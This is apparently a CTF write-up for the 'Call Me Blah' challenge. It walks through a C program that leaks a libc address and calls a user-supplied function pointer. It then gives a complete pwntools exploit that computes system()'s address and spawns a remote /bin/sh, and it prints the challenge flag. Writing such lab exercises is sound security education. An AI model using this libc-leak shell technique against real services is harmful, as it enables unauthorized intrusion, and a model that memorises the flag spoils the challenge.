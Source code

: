 # Solution to Call Me Blah

This challenge shows you how to exploit a memory leak to spawn a shell on server side. You are given the binary file itself, the source code in C and two libraries that come with it.

When we launch the code, it prints some data, then you can input things but the program stops.

## Analysing the code

The first step is to analyse the code to understand what it does:

```C
main(void)
{
	void (*call_me)(char *);
	char blah[32];

	printf("%p\n", stdin);

	if (scanf("%zd%*c", (ssize_t *)&call_me) != 1) {
		fputs("This is not a number.\n", stderr);
		return EXIT_FAILURE;
	}

	if (fgets(blah, sizeof(blah), stdin) == NULL) {
		fputs("Read error.\n", stderr);
		return EXIT_FAILURE;
	}

    call_me(blah);

	return EXIT_SUCCESS;
}
```
Here's a breakdown of the code:
* The program starts by declaring the `call_me` variable, which is declared as a pointer of a function that takes a string as argument, and a `blah` variable as a string.
* Then, the program prints the memory address of the function `stdin`, this is a leak of memory !
* After that, the program asks you to enter a number that will be store inside the `call_me` variable, and a string that will be stored in the `blah` variable.
* Finally, the program calls the function that `call_me` points to, with the argument of `blah`.

But how can we call a function if we gave a number to `call_me` ? This was confusing to me at first, but what you're giving to `call_me` isn't the name of a function, but the value of the memory where that function is stored ! That's why you give it a number !

So what do we do from now ? The challenge is to open a shell on the server, which means that we want to execute `system("/bin/sh")` server side.

## Making the exploit

Now that we know that, we're going to use Python to do our exploit:

```Python
from pwn import *

# Defines the different binary given
callmeblah = context.binary = ELF("./call-me-blah")
libc = ELF("./libc-2.36.so")
ld = ELF("./ld-2.36.so")

# Connects to the serveur
HOST, PORT = "127.0.0.1", 4000
r = remote(HOST, PORT)

# Gets the leaked address of stdin given by the server
leaked_address = r.recv().decode()
leaked_address = int(leaked_address[2:], 16)
print(f"Leaked address: {leaked_address}")

# Gets the official stdin address in the library
stdin_address = libc.sym["_IO_2_1_stdin_"]
print(f"Official stdin address: {stdin_address}")

# Sets the base address with the offset we found
libc.address = (leaked_address - stdin_address)

# Gets the address of the system function
system_address = libc.sym["system"]
print(f"System address using libc.address: {system_address}")

# Sends the address of the system funtion and the /bin/sh argument and switch to interactive mode
r.sendline(str(system_address).encode())
r.sendline("/bin/sh".encode())
r.interactive()
```

The file should be quite self-explanatory with the information we know but let's detail it a little for those interested:
* We use the `ELF()` method from pwntools to define our binaries and libraries. The `context.binary` helps pwntools to understand the context of the script.
* We make the connection to the server (here it's just localhost)
* We receive the leaked address of the `stdin` function given by the server and we convert it to an integer (it's sent in hexadecimal by the server)
* We retreive the official address of the `stdin` function in our local libc library using `sym` (for *symbol*) using the parameter `"_IO_2_1_stdin_"`
* Now that we now the difference between our address and the server address, we can offset the library's address based on the offset we found using the leaked address. It's basically like offsetting the "0" of the library.
* We can then get the address of the `system` function now that we have the same addresses than the server (because we have the same offset than the server)
* Finally, we send the address of the `system` function, and the `"/bin/sh"` argument to open a shell on the server. We switch in interactive mode to write in our terminal.
* Write `ls` in the terminal, you'll see that the shell was opened successfully, you see a `flag.txt` file, you can print it's content using `cat` !

And here's the Flag: `FCSC{c22407092c870dfb9b6ee7e5277015de9c2a6fbc16a251237c037e73eb7a3a7e}`